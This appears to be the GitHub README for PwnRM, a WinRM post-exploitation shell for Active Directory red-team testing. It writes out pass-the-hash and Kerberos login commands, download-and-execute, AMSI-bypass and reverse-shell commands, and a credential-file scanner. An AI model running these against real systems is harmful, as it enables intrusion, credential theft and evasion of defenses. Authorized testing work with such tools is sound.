

<div align="center">



# PwnRM

**Advanced WinRM Post-Exploitation Shell for Windows Active Directory Testing**

[](https://github.com/uziii2208/PwnRM/stargazers)
[](https://github.com/uziii2208/PwnRM/network/members)
[](https://github.com/uziii2208/PwnRM/issues)
[](LICENSE)
[](https://github.com/uziii2208/PwnRM/releases)
[](https://github.com/uziii2208/PwnRM)
[](https://www.python.org/)

> **PwnRM** is a fully rewritten, operator-grade WinRM execution framework built for **advanced Windows Active Directory security assessments**. It combines a rich interactive shell with a built-in AD triage engine, Kerberos/NTLM/CredSSP transport layer, and stealthy .NET / PowerShell payload delivery — all from a single Python binary.

[Features](#-features) · [Installation](#-installation) · [Usage](#-usage) · [Commands](#-commands) · [AD Triage](#-ad-triage-new-in-v100) · [Changelog](#-changelog) · [Disclaimer](#%EF%B8%8F-disclaimer)

</div>

---

## What is PwnRM?

PwnRM is a post-exploitation shell for **authorized red-team and penetration testing** of Windows environments. It targets the **WS-Management (WinRM) protocol** and communicates natively over MS-PSRP (PowerShell Remoting Protocol), giving you a full PowerShell runspace without spawning `powershell.exe` as a visible process.

Built on top of [Impacket](https://github.com/fortra/impacket), PwnRM supports every modern AD authentication path — NTLM, Pass-the-Hash, Kerberos ccache, CredSSP, and client-certificate mutual auth (ADCS abuse) — and ships with a self-contained **AD Triage module** that enumerates the most critical Active Directory attack paths without requiring any additional tooling on the target.

### Why PwnRM over evil-winrm?

| Capability | PwnRM v1.0.0 | evil-winrm |
|---|:---:|:---:|
| Pure Python (no Ruby) | ✅ | ❌ |
| Kerberos ccache / PtH | ✅ | ✅ |
| CredSSP transport | ✅ | ❌ |
| Client-cert (.pfx) mutual auth | ✅ | ❌ |
| Built-in AD Triage (no BloodHound needed) | ✅ | ❌ |
| AMSI bypass | ✅ | ✅ |
| .NET assembly loader | ✅ | ✅ |
| Session metadata + tab-completion | ✅ | ❌ |
| Channel binding (EPA) | ✅ | ❌ |
| No PowerShell history (`AddToHistory=false`) | ✅ | ❌ |

---

## Features

### Shell & Connectivity
- **Interactive PowerShell runspace** over WS-Management / MS-PSRP — no `powershell.exe` process visible on target
- **Tab-completion** for all built-in commands via `prompt_toolkit`
- **Session metadata** — uptime, command counter, active target info in the prompt
- **Session transcript** — structured log of every command and output

### Authentication
- **NTLM** (password or NT hash — Pass-the-Hash)
- **Kerberos** — ccache file (`-k --ccache`) or `KRB5CCNAME` environment variable
- **CredSSP** — full credential delegation (useful for double-hop scenarios)
- **Client certificate mutual auth** — `.pfx` files from ADCS abuse paths (ESC1, ESC9, Shadow Credentials)
- **Channel binding (EPA)** on HTTPS targets — compatible with Server 2022+ hardened configs

### Payload Delivery
- **`!upload` / `!download`** — chunked XOR-obfuscated file transfer with MD5 verification; directory download auto-zips
- **`!amsi`** — patches `AmsiScanBuffer` in the remote process via reflective DllImport
- **`!psrun`** — streams and executes remote PowerShell scripts inside an obfuscated `ScriptBlock` to evade logging
- **`!netrun`** — loads and invokes remote .NET assemblies with console output hijack
- **`!revshell`** — raw Winsock reverse shell via `CreateProcess` + `WSAConnect` — full stdin/stdout/stderr

### AD Triage (`!adtriage`)
Built-in, no-extra-tools AD enumeration engine. See the [full section](#-ad-triage-new-in-v100) below.

---

## Installation

### Requirements

- **OS**: Kali Linux, Parrot OS, Ubuntu 22.04+, Debian 11+ (or any Linux with Python 3.10+)
- **Python**: 3.10+
- **Root/sudo**: required for the installer

### Quick Install

```bash
git clone https://github.com/uziii2208/PwnRM.git
cd PwnRM
sudo bash install.sh
```

The installer sets up a virtual environment at `/opt/pwnrm` and registers a global `pwnrm` wrapper.

### Manual Install

```bash
git clone https://github.com/uziii2208/PwnRM.git
cd PwnRM
python3 -m venv venv && source venv/bin/activate
pip install -r requirements.txt
python3 pwnrm -h
```

### Python Dependencies

```
impacket>=0.12.0
prompt_toolkit>=3.0.0
pycryptodomex>=3.20.0
requests>=2.31.0
cryptography>=42.0.0
pyasn1>=0.6.0
```

---

## Usage

### Basic Syntax

```
pwnrm [[domain/]username[:password]@]<target> [options]
```

### Authentication Examples

```bash
# Password
pwnrm -u Administrator -p 'P@ssw0rd!' 192.168.1.10

# Pass-the-Hash (NT hash only)
pwnrm -u Administrator -H :aad3b435b51404eeaad3b435b51404ee dc01.corp.local

# Kerberos via ccache
export KRB5CCNAME=/tmp/administrator.ccache
pwnrm -u administrator@CORP.LOCAL -k dc01.corp.local

# Kerberos with explicit ccache path
pwnrm -u administrator@CORP.LOCAL -k --ccache /tmp/admin.ccache dc01.corp.local

# Client certificate from ADCS abuse (ESC1 / ESC9 / Shadow Credentials)
pwnrm -u administrator@CORP.LOCAL --pfx administrator.pfx --pfx-pass MySecret https://dc01.corp.local:5986

# CredSSP (double-hop / credential delegation)
pwnrm -u admin -p 'P@ss' --credssp dc01.corp.local

# Run single command (non-interactive)
pwnrm -u admin -p 'P@ss' dc01.corp.local -X "whoami /all"
```

### Connection Options

```
--port PORT        Override WinRM port (default: 5985 HTTP, 5986 HTTPS)
--ssl              Force HTTPS
--timeout SEC      Per-request timeout (default: 30)
--debug            Verbose output
--ts               Timestamp all log entries
```

---

## Commands

Once connected, use these built-in commands inside the shell:

### File Operations

| Command | Description |
|---|---|
| `!download RPATH [LPATH]` | Pull file or directory from target. Directories are automatically zipped. Paths with spaces must be quoted. |
| `!upload [-xor] LPATH [RPATH]` | Push a local file to the target. Use `-xor` when staging encrypted payloads for `!psrun`/`!netrun`. |

### Code Execution

| Command | Description |
|---|---|
| `!amsi` | Patch `AmsiScanBuffer` in the remote PowerShell process. Run this before loading .NET assemblies or obfuscated scripts. |
| `!psrun [-xor] URL` | Download and execute a PowerShell script via URL using obfuscated ScriptBlock invocation. |
| `!netrun [-xor] URL [ARG..]` | Download and invoke a .NET assembly with optional arguments. Console output is captured via a custom `TextWriter`. |
| `!revshell IP PORT` | Spawn a raw Winsock reverse shell with full I/O redirection (`stdin`/`stdout`/`stderr`). Use `nc -lvnp PORT` on your listener. |

### AD Reconnaissance

| Command | Description |
|---|---|
| `!adtriage` | Full AD enumeration: identity, groups, SPNs, AS-REP, delegation, ADCS, gMSA/dMSA, ACLs. |
| `!adtriage -q` | Quick mode — identity, domain basics, and Server 2025 / BadSuccessor check only. |
| `!sysinfo` | OS build, hotfixes, AV products, local admins, SMB/WinRM configuration. |
| `!creds` | Scans for DPAPI blobs, PowerShell history, `web.config`, `unattend.xml`, `ntds.dit`, `cmdkey` entries. |

### Session Management

| Command | Description |
|---|---|
| `!log` | Start logging session transcript to `pwnrm_<timestamp>_stdout.log`. |
| `!stoplog` | Stop transcript logging. |
| `!help` / `?` | Show built-in help with session metadata. |
| `exit` / `quit` / `Ctrl+D` | Close the remote session gracefully. |
| `Ctrl+C` | Interrupt the currently running remote command. Repeated Ctrl+C force-terminates. |

---

## AD Triage (New in v1.0.0)

`!adtriage` is PwnRM's signature feature: a **self-contained Active Directory enumeration engine** that runs entirely inside the remote PowerShell session using only built-in .NET and ADSI/LDAP calls — no Sharphound, no BloodHound, no extra binaries on the target.

### What it covers

```
1.  Identity & session         — current user, SID, groups, privileges
2.  Domain basics              — domain, forest, DCs, external trusts
    ↳ OS version check         — flags Windows Server 2025 → BadSuccessor hint
3.  High-value group members   — Domain Admins, Enterprise Admins, DNSAdmins, etc.
4.  Kerberoastable accounts    — user objects with SPNs, adminCount, password age
5.  AS-REP roastable           — DONT_REQ_PREAUTH accounts
6.  Unconstrained delegation   — coercion + TGT capture targets
7.  Constrained delegation     — S4U2Self / protocol-transition paths
8.  RBCD                       — msDS-AllowedToActOnBehalfOfOtherIdentity write targets
9.  ADCS template scan         — ESC1 (enrollee-supplied SAN), ESC3 (cert request agent),
                                 ESC4 (published templates — flag for Certipy)
10. gMSA / dMSA                — gMSA password read targets; dMSA BadSuccessor targets
11. ACL quick-wins             — GenericAll / GenericWrite / WriteDACL on DA/DC/krbtgt
12. Pre-Windows 2000 compat    — Anonymous LDAP read vulnerability check
13. Password-never-expires     — adminCount=1 accounts with infinite passwords
    ↳ Printed next steps       — Kerberoast / AS-REP / ADCS / BadSuccessor / BloodHound
```

### Sample output

```
========================================================================
  [*] Identity & Session
========================================================================
  [+] User     : CORP\svc_backup
  [+] SID      : S-1-5-21-...
  [+] Groups   : CORP\Backup Operators, ...
  [+] Privs    : SeBackupPrivilege, SeRestorePrivilege

========================================================================
  [*] Unconstrained Delegation
========================================================================
  [!] FILESRV01$  ← coerce + capture TGT → DCSync

========================================================================
  [*] ADCS — Vulnerable Certificate Templates
========================================================================
  [!] ESC1 candidate : UserAuth  (enrollee supplies SAN + Client Auth)
  [!] ESC3 candidate : EnrollAgent  (Certificate Request Agent EKU)

========================================================================
  [*] gMSA / dMSA Accounts
========================================================================
  [+] gMSA: svc_adfs$
  [!] dMSA: svc_itsupport$ ← potential BadSuccessor target
```

---

## Directory Structure

```
PwnRM/
├── pwnrm                   # Main entry point (CLI + PwnShell class)
├── core.py                 # Transport layer, Runspace, credential helpers
├── requirements.txt        # Python dependencies
├── install.sh              # One-line installer (Kali / Debian / Ubuntu)
├── photos/
│   └── image.png           # Banner screenshot
└── README.md               # This file
```

---

## Troubleshooting

**`pwnrm: command not found`**
```bash
sudo bash /opt/pwnrm/install.sh
```

**Python import errors**
```bash
source /opt/pwnrm/venv/bin/activate
pip install -r /opt/pwnrm/requirements.txt
```

**`KRB_AP_ERR_SKEW` / Kerberos clock skew**
```bash
sudo ntpdate <DC_IP>        # or: sudo rdate -n <DC_IP>
```

**WinRM connection refused**
```powershell
# On the target (as Administrator):
Enable-PSRemoting -Force
Set-Item WSMan:\localhost\Client\TrustedHosts -Value "*" -Force
```

**AMSI detection when loading assemblies**
Run `!amsi` before `!netrun` or `!psrun`. If AMSI is still catching payloads, XOR-encrypt the payload first with `!upload -xor` and then load it with `!netrun -xor`.

---

## Changelog

### v1.0.0 (2026-08-15)
- **New**: `!adtriage` — self-contained AD post-auth enumeration engine (13 checks, no extra binaries)
- **New**: `!sysinfo` — OS/AV/hotfix/SMB snapshot command
- **New**: `!creds` — DPAPI artifact and credential file scanner
- **New**: Kerberos ccache transport (`-k` / `--ccache`)
- **New**: Client-certificate mutual-auth transport (`--pfx` / `--pfx-pass`) — ADCS abuse ready
- **New**: CredSSP transport (`--credssp`) for double-hop scenarios
- **New**: Pass-the-Hash via `-H NTHASH` flag (previously required inline in target string)
- **New**: Tab-completion via `prompt_toolkit` WordCompleter
- **New**: Session metadata (uptime, command counter) in banner and prompt
- **New**: Channel binding (EPA/GSS bindings) for HTTPS targets — compatible with Server 2022+
- **Improved**: `AddToHistory=false` in all pipeline requests — cleaner OPSEC footprint
- **Improved**: `argument_parser()` overhauled — all auth modes exposed as clean flags
- **Improved**: `_decrypted_response()` handles both tab and space prefixes in MIME multipart
- **Improved**: Full ANSI colour palette for clear output differentiation (green=success, yellow=warn, red=error, cyan=info)
- **Improved**: README completely rewritten with badges, comparison table, and per-command docs

---

## ⚠️ Disclaimer

PwnRM is developed for **authorized security testing, red-team operations, and educational purposes only**.

- You must have **explicit written authorization** (Rules of Engagement / signed scope) before running PwnRM against any system.
- The authors assume **no liability** for misuse, damage, or unauthorized use.
- **Never use against systems you do not own or lack permission to test.**

---

## Credits

| Contributor | Role |
|---|---|
| **uziii2208** | Core author, v1.0.0 rewrite |
| **Impacket / SecureAuth** | WinRM / Kerberos / NTLM protocol library |
| **fortra/impacket** | Upstream dependency |
| Original `winrmexec.py` | Concept and initial reference |

---

## License

```
MIT License — Copyright (c) 2025 uziii2208
Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is furnished
to do so, subject to the following conditions: The above copyright notice and
this permission notice shall be included in all copies or substantial portions
of the Software.
```

---

<div align="center">

**ENJOY YOUR MEAL 🍖**

*Made with ☕ and too many late nights — for the red team community.*

[](https://github.com/uziii2208)

</div>